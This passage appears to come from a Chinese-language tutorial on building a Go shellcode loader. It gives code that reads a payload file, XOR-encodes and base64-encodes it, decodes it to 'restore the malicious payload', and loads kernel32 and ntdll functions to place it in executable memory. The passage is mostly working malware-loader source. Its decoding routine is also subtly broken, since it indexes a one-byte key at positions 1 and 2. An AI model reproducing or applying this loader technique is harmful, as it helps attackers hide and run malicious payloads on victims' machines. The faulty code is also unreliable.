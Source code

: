 ```go
}

// 从文件中读取Shellcode
func getFileShellCode(file string) []byte {
	shellcode, err := ioutil.ReadFile(file)
	if err != nil {
		fmt.Print(err)
	}
	return shellcode
}

func main() {
	shellcode := getFileShellCode("payload.bin")
	fmt.Println(getEnCode(shellcode))
}

```

- bin文件太大的话，加密后的字符会很多，可以重定向到文件中

```bash
$ go run xor_shellcode.go > xor.txt
```

### 解密
Shellcode的执行步骤：首先需要通过Loader加载器去申请一块内存，然后使用将Shellcode加载到这块内存：中，最后执行这块内存。

- 首先定义用到的函数和变量

```go
const (
	MEM_COMMIT             = 0x1000
	MEM_RESERVE            = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40  // 区域可以执行代码，应用程序可以读写该区域。
)

var kk = []byte{0x21}

var (
	kernel32      = syscall.MustLoadDLL("kernel32.dll")
	ntdll         = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
// RtlMoveMemory = ntdll.MustFindProc("RtlMoveMemory")
    RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)
```

- 编写Shellcode的解密代码，还原恶意载荷

```go
func getDeCode(src string) []byte {
	ss, _ := base64.StdEncoding.DecodeString(src)
	var shellcode []byte
	for i := 0; i < len(ss); i++ {
		shellcode = append(shellcode, ss[i]^kk[1]^kk[2])
	}
	return shellcode
}

```
